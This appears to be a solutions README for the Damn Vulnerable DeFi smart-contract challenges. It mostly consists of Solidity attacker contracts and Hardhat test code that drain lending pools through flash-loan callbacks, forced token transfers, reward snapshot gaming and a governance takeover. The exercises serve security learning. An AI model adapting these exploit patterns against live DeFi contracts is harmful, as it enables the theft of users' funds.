 # DamnVulnerableDefi

## Challenge #1 - Unstoppable 

To stop the pool from offering flash loans the assert statement in the flashloan function needs to be exploited. This can be done via sending
tokens to the contract by not using the depositTOken function. This way ```poolBlanace``` will never be equal to ```balanceBefore```.

Add these lines to unstopabble.challenge.js:
```
 it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        await this.token.connect(attacker).transfer(this.pool.address, 1);
    });
```

## Challenge #2 - Naive receiver

To drain all ETH funds from the user's contract , the contract must borrow a flash loan 10 times so that it has to pay a fee of 1ETH everytime.
SInce there's no restriction on the flashLoan function it can be called by anyone. Calling it 10 times does the job.

Add these lines to naive-receiver.challenge.js:
``` 
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        for (let i = 0; i < 10; i++) {
            await this.pool.connect(attacker).flashLoan(this.receiver.address,0);
        }        
        
    });
```
## Challenge #3 - Truster

Create new contract _TrusterHack.sol_ 
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "./TrusterLenderPool.sol";

contract TrusterHack  {

    function hack( address _pool, address _token, uint amount) public {
        TrusterLenderPool pool = TrusterLenderPool(_pool);
        IERC20 token = IERC20(_token);

        bytes memory data = abi.encodeWithSignature(
            "approve(address,uint256)", address(this), amount
        );

        pool.flashLoan(0, msg.sender, _token, data);

        token.transferFrom(_pool , msg.sender, token.balanceOf(_pool));
    }
}
```

truster.challenge.js : 
```
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE  */
        const _TrusterHack = await ethers.getContractFactory('TrusterHack', deployer);
        const TrusterHackContract = await _TrusterHack.deploy();

        await TrusterHackContract.connect(attacker).hack(this.pool.address, this.token.address, TOKENS_IN_POOL);        
    });
```
## Challenge #5 - The rewarder
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "./FlashLoanerPool.sol";
import "./TheRewarderPool.sol";


contract HackRewarder {

    IERC20 token;
    FlashLoanerPool pool;
    TheRewarderPool rewardPool;
    uint256 andhapaisa;

    constructor (address _pool, address _token, address _rewardPool) {
        
        pool = FlashLoanerPool(_pool);
        token = IERC20(_token);
        rewardPool = TheRewarderPool(_rewardPool);
        andhapaisa = token.balanceOf(address(pool));
    }

    function attack() public {
        pool.flashLoan(andhapaisa);
    }

    fallback() external {

        token.approve(address(rewardPool), andhapaisa);
        rewardPool.deposit(andhapaisa);
        rewardPool.withdraw(andhapaisa);
        token.transfer(address(pool),andhapaisa);
    }
}
```
## Challenge #6 - Selfie

Create a new contract, SelfieHack.sol : 
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "./SelfiePool.sol";
import "../DamnValuableTokenSnapshot.sol";
import "./SimpleGovernance.sol";

contract SelfieHack {

    DamnValuableTokenSnapshot public token;
    SelfiePool pool;
    SimpleGovernance  gov;
    address payable attacker;
    uint256 public actionId;

    constructor (address _token, address _pool, address _gov) {
        token = DamnValuableTokenSnapshot(_token);
        pool = SelfiePool(_pool);
        gov = SimpleGovernance(_gov);
        attacker = payable(msg.sender);
    }

    function attack(uint256 amount) external {
        pool.flashLoan(amount);
    }

    function receiveTokens(address tokenaddr, uint256 amount) external {        
        token.snapshot();
        token.transfer(msg.sender, amount);
        bytes memory data = abi.encodeWithSignature(
            "drainAllFunds(address)",
            attacker
            );        
        actionId = gov.queueAction(address(pool), data, 0);        
    }
}

```

selfie.challenge.js:
```
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */     

        const SelfieHackFactory = await ethers.getContractFactory('SelfieHack', attacker);
        const SelfieHackContract = await SelfieHackFactory.deploy(this.token.address, this.pool.address, this.governance.address);
        await SelfieHackContract.connect(attacker).attack(TOKENS_IN_POOL);
        const actionId = ethers.BigNumber.from(await SelfieHackContract.connect(attacker).actionId());        

        await ethers.provider.send("evm_increaseTime", [2 * 24 * 60 * 60]); 
        await this.governance.connect(attacker).executeAction(actionId);
    });


```
